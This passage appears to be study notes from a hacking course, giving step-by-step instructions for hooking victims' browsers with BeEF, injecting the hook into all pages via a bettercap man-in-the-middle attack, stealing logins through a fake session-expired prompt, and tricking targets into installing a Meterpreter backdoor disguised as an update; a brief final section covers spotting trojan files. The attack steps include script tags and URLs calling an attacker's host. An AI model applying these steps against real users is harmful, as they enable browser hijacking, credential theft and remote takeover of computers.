 - type *<script src="http://<our-ip>:3000/hook.js"></script>*
- do not forget to start the built-in server by *service apache2 start*
- when the target loads the hooked page, their ip address should appear in the online browsers section
- in that section, there are a lot of information about the browser of the target
- in the logs tab, there are the events happened before
- in the commands tab, there are useful tools to execute to gain control of the computer completely
- in the proxy tab, you can use the browser as a proxy
- in the xssrays tab, it shows if the hooked page has any xss vulnerablities
- in the network tab, you can see the current overview of the network
- to use beef for the targets outside the network, configure port *3000* on your computer because it is the port that beef uses to hook
- also, now in hook file, use the public ip, the above html code of the script should be changed to
*<script src="http://<public-ip>:3000/hook.js"></script>*

###Hooking when we are MITM
- earlier, we were able to inject javascript codes to websites loaded by the target
- using the same method, now inject the hook javascript file to every page loaded
- this way, when the target uses the web browser, the hook is applied immediately
- use *inject_beef.js* as the loaded payload to every url
- in this file, change the ip address to your ip
- to do this, go to the *hstshijack.cap* file in the bettercap directory as in the *Injecting Javascript Code* section
- in the *payloads* line, add the path of the *inject_beef* file with *\*:* at the start to inject it to all loaded websites
- then use bettercap to catch all the datas going to and from the target computer with *bettercap -iface <interface> -caplet <.cap>*
- in the bettercap, activate hstshijack with *hstshijack/hstshijack* to inject the code

###Using Commands on the Browser
- just use user interface to find the suitable command and then execute from the bottom right
- for example, search for alert in the commands and use *create alert dialog* to make the website alert some message
- *raw javascript* lets us execute a javascript code directly on that browser
- *spyder eye* lets us take a screenshot of the current state of that browser
- *redirect browser* lets us redirect the browser to any website we want
- it can be used to show a web page downloading an update with a backdoor to trap the user
- *pretty theft* pops up a fake login prompt for the selected social media account saying the session is expired and when the target enters
username and password, it directly comes to us

###Opening a Meterpreter Session
- again in the commands section, select the *fake notification bar <target's browser>* attack
- it will tell the target that there is an update and ask to install it, but it will actually contain backdoor in it
- you can use the same backdoor you were using opening a meterpreter session
- just add it in your domain with your ip, it should be *rev_http_808.exe*
- now in beef, give the full url for the backdoor, like *http://<ip>/<backdoor.exe>*
- rename the backdoor as something nonsuspicious, like *update*
- set a suitable notification test to fool the target
- do not forget to listen to incoming connections with metasploit

##Detecting Files with Backdoors
- analyzing trojans
- check the properties of the downloaded file
- if it shows *.exe* where it should have been an pdf or jpg, then it is suspicious
- check the type of the file in the details section, if it is an application but it should not have been, then that would be a trojan
- try to rename the file, the inserted string reverse character would be revealed with this
- if the expected file is also an exe, then catching backdoors is more difficult
- open the *resource monitor* if we are using windows, go to the network section where we can see the used ports in this pc
- look at the remote addresses there where we see the ip address of the machine we are connected
- if it is a website, it is obvious from the ip
- if it is an ip of a computer we do not know, then it is suspicious